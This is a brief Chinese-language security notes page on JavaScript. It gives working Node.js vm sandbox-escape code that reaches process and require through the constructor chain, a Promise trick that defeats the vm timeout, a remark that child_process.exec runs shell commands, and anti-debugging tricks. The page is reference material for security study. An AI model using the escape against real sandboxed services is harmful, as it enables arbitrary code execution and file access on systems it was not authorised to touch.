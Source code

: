 JavaScript
================================

沙箱逃逸
-------------------------------

exp

::

    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);

::

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );


命令执行
-------------------------------

Node.js中child_process.exec命令调用的是/bin/sh，故可以直接使用该命令执行shell


反调试技巧
-------------------------------

- 函数重定义 ``console.log = function(a){}``
- 定时断点 ``setInterval(function(){debugger}, 1000);``


参考链接
-------------------------------
- `JavaScript反调试技巧 <http://www.freebuf.com/articles/system/163579.html>`_
